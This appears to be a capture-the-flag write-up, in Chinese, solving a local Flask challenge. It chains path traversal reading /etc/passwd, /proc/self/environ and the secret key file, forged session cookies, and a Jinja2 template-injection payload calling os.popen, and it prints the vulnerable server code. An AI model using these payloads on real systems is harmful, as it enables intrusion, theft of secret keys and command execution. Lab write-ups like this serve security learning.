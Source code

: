 # any file read Q3

## Solution

進入網頁 `http://localhost:5000/` 粗略試用

發現有以下三個頁面，且透過瀏覽器看出是使用 Python 2.7 撰寫的

- http://localhost:5000/
- http://localhost:5000/n1page
- http://localhost:5000/article?name=article

使用傳統藝能，配合 ZAP (`http://localhost:8080/zap/`) 做一次 Automated Scan

![alt text](image-1.png)

整理後主要可以利用的弱點是 Path Traversal

利用網址: `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd` 可以直接 access `/etc/passwd`

![alt text](image-2.png)

基本上這類 Path Traversal 的漏洞，可以任意讀取到伺服器上的任何檔案，我想要嘗試閱讀 Flag 檔案

隨意測試不同常見位置

- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag`
- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag.txt`
- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/flag`

![alt text](image-3.png)

都遇到 no permission error, 但是明明可以 access `/etc/passwd` 這種隱私文件。

因此猜測是 python web service 內有使用某種機制阻止了這種操作。

想嘗試看看能不能讀到 python code 本身，因此透過 access `proc/self/environ` 來獲取當前 process 的環境變數，看看有沒有什麼有用的信息。

go to `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/proc/self/environ`

![alt text](image-4.png)

看到 PWD= `/home/sssssserver`

因此嘗試去該目錄讀取常見的 python code file name。

- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/home/sssssserver/main.py`
- `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F/home/sssssserver/server.py`

在 `server.py` 中成功取得 python server source code as below.

```python
#!/usr/bin/python
import os
from flask import ( Flask, render_template, request, url_for, redirect, session, render_template_string )
from flask_session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')

FLAG = flag
app.secret_key = key
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None:
        n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
    template = None
    if session['n1code'] is not None:
        template = '''
        <h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div>
        ''' % session['n1code']
        session['n1code'] = None
    return render_template_string(template)

@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
@app.route('/article', methods=['GET'])
def article():
    error = 0
    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'
    if page.find('flag')>=0:
        page = 'notallowed.txt'
    try:
        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
    except Exception as e:
        template = e

    return render_template('article.html', template=template)

if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```

透過程式碼分析可以發現 Flask 模板的 template 漏洞 (ctf flask 模板注入)，概念是程式碼直接把 session['n1code'] 的值直接塞到 render_template_string() 函數中，而 session['n1code'] 的值是從 user input 取得的。因此可以透過精心設計的 user input 來注入任意的 Python code。

當然，要做到這件事需要先透過 private key 偽造 Flask Session，因為直接輸入的 input 會把危險字符 replace 掉。

以下會置換輸入文字的危險符號，並且當 session 為空時完成更新。

```python
if n1code is not None:
    n1code = n1code.replace(".", "").replace("_", "").replace("{","").replace("}","")
if "n1code" not in session or session['n1code'] is None:
    session['n1code'] = n1code
```

換而言之，自製非空 session 後，可以直接作為輸入傳入 template 中。

基於程式碼得知，可以在 `key.py` 中找到偽造 session 的 private key。

goto `http://127.0.0.1:5000/article?name=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome/sssssserver/key.py`

取得 key 以後使用網路上的腳本 `flask-session-cookie-manager` 來偽造 session。

```bash
git clone https://github.com/noraj/flask-session-cookie-manager.git && cd flask-session-cookie-manager
python -m venv venv
source venv/bin/activate
python -m pip install .
```

先嘗試偽造不具備攻擊性的 session： `python flask_session_cookie_manager3.py encode -s='private_key_above' -t="{'n1code': 'TEST_FLAG'}"`

得到 session: `XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX`

透過 ZAP POST 到 n1code API (session 填入上面腳本產生的偽造 session)

- headers:
  ```
  POST http://web-service:5000/n1page HTTP/1.1
  host: web-service:5000
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Connection: keep-alive
  Referer: http://web-service:5000/n1page
  Content-Type: application/x-www-form-urlencoded
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  content-length: 13
  Cookie: session=XXXXXXXXXX
  ```
- body:
  ```
  n1code=inbody
  ```

得到以下錯誤結果，預期應該顯示 TEST_FLAG 但顯示 inbody

![alt text](image-5.png)

錯誤原因是 ZAP 要關閉 accept cookie 功能才吃的到自訂 cookie，重新 post 一次，成功顯示 TEST_FLAG。

![alt text](image-6.png)

確認注入流程後按照網路教學，撰寫要注入的 Flask Template Code。

```python
__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()
```

概念就是調用 OS 的 popen 方法，執行 cat flag.py 命令，並將結果回傳。

最終使用命令偽造 session : `python ./flask_session_cookie_manager3.py encode -s "private_key_above" -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"`

取得 session 後放入 ZAP 中 POST 成功取得 Flag。

![alt text](image.png)
